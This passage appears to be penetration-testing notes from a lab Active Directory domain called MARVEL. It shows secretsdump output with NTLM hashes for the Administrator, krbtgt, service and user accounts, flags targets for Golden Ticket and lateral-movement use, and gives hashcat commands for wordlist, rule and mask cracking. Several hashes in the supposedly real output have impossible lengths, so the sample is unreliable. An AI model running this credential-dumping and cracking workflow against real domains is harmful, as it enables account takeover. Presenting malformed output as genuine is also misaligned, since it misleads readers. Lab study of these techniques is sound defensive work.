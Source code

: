 ## 📋 Real-World Example Output

Based on the MARVEL domain screenshot, secretsdump reveals:

```bash
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9b25135001a69d53af33aa6cdc8915735:::
MARVEL.local\fcastle:1103:aad3b435b51404eeaad3b435b51404ee:64f12cddaa880fe4b4e73b949b:::
MARVEL.local\tstark:1104:aad3b435b51404eeaad3b435b51404ee:40d3ddcc6d42c0ac000aaafe3cb5437b:::
MARVEL.local\pparker:1105:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391de0:::
MARVEL.local\SQLService:1106:aad3b435b51404eeaad3b435b51404ee:f4ab68f2b4501bcb024650d8fc5f973a:::
HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:64eac4280b92bbc8783c29bd638257fc:::
THEPUNISHERS:1107:aad3b435b51404eeaad3b435b51404ee:89371d74d536c916d94daa36c1b91e41:::
SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:f49189d6b0b38ffcc04274cc9355c24c1:::
```

### Key Information Extracted:
- **Administrator hash**: `920ae267e048417fcfe00f49ecbd4b33`
- **krbtgt hash**: `9b25135001a69d53af33aa6cdc8915735` (Golden Ticket material!)
- **Service accounts**: SQLService with hash for potential lateral movement
- **User accounts**: fcastle, tstark, pparker - all with crackable hashes
- **Computer accounts**: Domain controllers and workstations

## 🔨 Hash Cracking Strategy

### 1. Prioritize High-Value Targets
```bash
# Extract specific high-value hashes
echo "920ae267e048417fcfe00f49ecbd4b33" > admin_hash.txt
echo "9b25135001a69d53af33aa6cdc8915735" > krbtgt_hash.txt
echo "f4ab68f2b4501bcb024650d8fc5f973a" > sqlservice_hash.txt
```

### 2. Crack with Hashcat
```bash
# Fast attack with common passwords
hashcat -m 1000 ntds_hashes.txt rockyou.txt -O

# Rule-based attack for password variations
hashcat -m 1000 ntds_hashes.txt rockyou.txt -r best64.rule

# Mask attack for corporate password patterns
hashcat -m 1000 ntds_hashes.txt -a 3 ?u?l?l?l?l?l?d?d?d?d
```

### 3. Analyze Password Patterns
```bash
# Create password statistics
hashcat -m 1000 ntds_hashes.txt --show | cut -d: -f2 > cracked_passwords.txt
python3 password_analyzer.py cracked_passwords.txt
```
